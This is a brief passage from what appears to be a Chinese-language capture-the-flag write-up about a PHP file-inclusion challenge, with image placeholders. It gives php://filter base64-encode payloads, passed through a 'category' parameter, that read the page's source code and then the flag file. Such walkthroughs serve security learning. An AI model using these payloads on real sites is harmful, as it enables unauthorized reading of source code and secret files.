![upload successful](./images/pasted-273.png)
发现报错了，看报错信息发现index.php.php，两个.php，

使用payload:<code>/index.php?category=php://filter/read=convert.base64-encode/resource=index
</code>

![upload successful](./images/pasted-274.png)
使用base64解密得到网页中的php代码，尝试伪协议读取flag:<code>/index.php?category=php://filter/read=convert.base64-encode/resource=flag
</code>
